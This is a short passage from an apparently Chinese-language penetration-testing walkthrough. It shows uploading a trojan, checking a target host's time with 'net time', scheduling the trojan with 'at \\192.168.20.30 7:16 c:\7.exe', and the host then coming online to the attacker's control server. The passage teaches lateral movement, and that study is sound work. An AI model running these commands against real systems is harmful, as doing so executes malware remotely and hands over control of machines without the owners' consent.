 ![image-20230624071314436](assets/pUB26xdieYjCTW7.png)

## 5.4. 设定定时任务

将木马上传后，就可以设定定时任务了，这里首先查询一下目标主机的时间，这样可以确保我们设置的时间是对的。

```
shell net time \\192.168.20.30
```

![image-20230624071409341](assets/rgTwzLeHJY54MVc.png)

这里我打码的是句柄无效，是由于我上面输入的ip地址错误了，后面输入对了，导致反馈信息到这行了，所以就打了个码。

```
shell at \\192.168.20.30 7:16 c:\7.exe
```

![image-20230624071546087](assets/JRA4hI5ZTc71kup.png)

## 5.5. 上线情况

这里是成功上线。 
